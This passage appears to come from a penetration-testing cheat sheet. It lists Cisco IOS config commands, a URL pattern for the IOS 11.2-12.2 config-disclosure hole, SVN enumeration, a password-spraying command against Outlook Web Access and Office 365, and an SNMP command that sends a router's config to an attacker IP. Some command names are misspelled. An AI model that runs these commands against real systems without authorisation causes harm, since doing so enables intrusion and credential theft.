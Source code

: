        <td style="text-align:left">#copy running-config startup-config</td>
       <td style="text-align:left">Place settings from memory to boot</td>
     </tr>
     <tr>
       <td style="text-align:left">#copy running-config tftp</td>
       <td style="text-align:left">Copy settings on tftp</td>
     </tr>
   </tbody>
</table>

### IOS 11.2-12.2 vulnerabilities

```text
http:// ip /level/ 16-99 /exec/show/config
```

## SVN

List of files and folders

```text
svn list svn://10.10.10.10/Empty/
```

activity reports

```text
svn log svn://10.10.10.10/
```

change list

```text
svn diff -c r2 svn://10.10.10.10
```


## Guess the password of OVA, O365, skype business

```text
python3 atomizer.py owa 10.10.10.10 pass.txt user.txt -i 0:0:01
```

## SNMP protocol

Need to start the tftp service

```text
./snmpblow.pl -s srcip -d rtr_ip -t attackerip -f out.txt
snmpstrings.txt
```

### Windows executive services list

```text
snrnpwalk -c public -v1 ip 1 | grep hrSWRJnName | cut -d" " -f4
```

